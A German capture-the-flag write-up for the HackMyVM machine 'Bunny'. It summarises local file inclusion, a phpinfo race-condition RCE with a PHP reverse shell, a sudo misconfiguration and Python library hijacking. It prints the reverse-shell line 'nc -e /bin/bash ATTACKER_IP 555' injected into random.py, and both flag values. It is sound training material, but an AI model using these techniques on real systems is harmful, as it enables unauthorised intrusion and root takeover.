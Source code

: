 # Bunny - HackMyVM (Hard)

![Bunny Icon](Bunny.png)

## Übersicht

*   **VM:** Bunny
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Bunny)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2022-10-17
*   **Original-Writeup:** [alientec1908.github.io](https://alientec1908.github.io/Bunny_HackMyVM_Hard/) (Autor: Ben C.)

## Kurzbeschreibung

Die virtuelle Maschine "Bunny" von HackMyVM (Schwierigkeitsgrad: Hard) offenbarte mehrere kritische Schwachstellen. Dieses Writeup dokumentiert den Weg von der initialen Enumeration über die Ausnutzung einer Local File Inclusion (LFI) in Kombination mit einer exponierten `phpinfo.php` zur Remote Code Execution, bis hin zur vollständigen Systemkompromittierung (Root-Zugriff) durch unsichere `sudo`-Konfigurationen und Python Library Hijacking.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `curl`
*   `wfuzz`
*   `hydra`
*   `nano`
*   `python` / `python2` / `python3`
*   `nc` (netcat)
*   `stty`
*   `sudo`
*   `ls`, `cat`, `id`, `find`, `head`, `mktemp`, `zip`, `grep`
*   Privilege Escalation Enumeration Skripte (z.B. `linpeas.sh`, etc.)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Bunny" gliederte sich in folgende Phasen:

1.  **Reconnaissance:**
    *   Identifizierung der Ziel-IP (`192.168.2.154`) mittels `arp-scan`.
    *   Portscan mit `nmap` offenbarte offene Ports: 22 (SSH - OpenSSH 7.9p1) und 80 (HTTP - Apache 2.4.38).

2.  **Web Enumeration & LFI:**
    *   `gobuster` fand diverse interessante Dateien auf dem Webserver: `index.php`, `upload.php`, `password.txt` (Ablenkungsmanöver mit ASCII-Art), `config.php` und `phpinfo.php`.
    *   `wfuzz` identifizierte eine Local File Inclusion (LFI) Schwachstelle im `page`-Parameter der `index.php`.
    *   Bestätigung der LFI durch Auslesen von `/etc/passwd`, was die Benutzer `root` und `chris` offenbarte. Versuche, SSH-Keys über LFI auszulesen, scheiterten.

3.  **Initial Access (LFI + PHPInfo Exploit):**
    *   SSH Brute-Force Versuche auf den Benutzer `chris` mit `hydra` blieben erfolglos.
    *   Die Kombination aus der LFI-Schwachstelle und der exponierten `phpinfo.php` wurde genutzt.
    *   Mittels des Skripts `phpinfolfi.py` (von Insomniasec) wurde eine Race Condition ausgenutzt:
        1.  Eine PHP-Reverse-Shell wurde via POST-Request an `phpinfo.php` gesendet.
        2.  Der temporäre Dateiname dieser Shell wurde aus der `phpinfo()`-Ausgabe extrahiert.
        3.  Dieser temporäre Pfad wurde schnell an die LFI-Schwachstelle in `index.php?page=` übergeben, um die Shell auszuführen, bevor sie gelöscht wird.
    *   Erfolgreiche Etablierung einer Reverse Shell als Benutzer `www-data`.
    *   Stabilisierung der Shell mittels Python (`pty.spawn`) und `stty`.

4.  **Privilege Escalation (www-data zu chris):**
    *   `sudo -l` zeigte, dass der Benutzer `www-data` das Skript `/home/chris/lab/magic` als Benutzer `chris` ohne Passwort ausführen darf (`(chris) NOPASSWD: /bin/bash /home/chris/lab/magic`).
    *   Das Skript `magic` schien seine Argumente als Befehle auszuführen.
    *   Durch Ausführen von `sudo -u chris /bin/bash /home/chris/lab/magic <beliebiger_befehl_oder_trick>` (im Writeup `zip $(mktemp -u) /etc/hosts`) wurde eine Shell als Benutzer `chris` erlangt.
    *   Stabilisierung der Shell als `chris` und Auslesen der User-Flag.

5.  **Privilege Escalation (chris zu root):**
    *   `sudo -l` für `chris` erforderte ein Passwort.
    *   Suche nach SUID-Binaries (`find / -perm -u=s -type f 2>/dev/null`) und weitere Enumeration (z.B. mit `linpeas.sh`) sind hier typische Schritte.
    *   Analyse des Python-Skripts `/opt/pendu.py` (gehört `root:root`), das das `random`-Modul importiert.
    *   Die Standard-Python-Bibliotheksdatei `/usr/lib/python3.7/random.py` war **weltbeschreibbar** (`-rw-r--rw-`).
    *   **Python Library Hijacking:**
        1.  Ein Netcat-Listener wurde auf der Angreifer-Maschine gestartet.
        2.  Am Anfang der Datei `/usr/lib/python3.7/random.py` wurde Code für eine Reverse Shell (`os.system("nc -e /bin/bash ATTACKER_IP 555")`) eingefügt.
        3.  Sobald ein Prozess (vermutlich ein Cronjob, der `/opt/pendu.py` ausführt) als `root` das manipulierte `random`-Modul importierte, wurde die Reverse Shell ausgeführt.
    *   Erfolgreiche Etablierung einer Reverse Shell als `root`.
    *   Auslesen der Root-Flag.

## Wichtige Schwachstellen und Konzepte

*   **Local File Inclusion (LFI):** Ausnutzung des `page`-Parameters in `index.php`.
*   **PHPInfo Exposure & Race Condition:** Kombination von LFI mit einer exponierten `phpinfo.php` zur Offenlegung temporärer Dateipfade und anschließender Remote Code Execution (RCE) durch eine Race Condition.
*   **Unsichere `sudo`-Konfiguration:** Erlaubte `www-data` die Ausführung eines Skripts als `chris` ohne Passwort, was zur Rechteausweitung führte.
*   **Python Library Hijacking:** Eine weltbeschreibbare Python-Standardbibliothek ermöglichte das Einschleusen von Schadcode, der bei Import durch ein als `root` laufendes Skript ausgeführt wurde.
*   **Irreführende Dateinamen:** `password.txt` enthielt keine Passwörter, sondern ASCII-Kunst.
*   **Privilege Escalation Enumeration:** Systematische Suche nach Schwachstellen zur Rechteausweitung.

## Flags

*   **User Flag (`/home/chris/user.txt`):** `b9c1575e8d8f934a4101fdbec2f711fe`
*   **Root Flag (`/root/root.txt`):** `536313923133fb4a628f8ddd5e0ed3e5`

## Tags

`HackMyVM`, `Bunny`, `Hard`, `LFI`, `PHPInfo`, `Race Condition`, `RCE`, `Sudo Privilege Escalation`, `Python Library Hijacking`, `Web`, `Linux`, `Privilege Escalation`, `Enumeration`
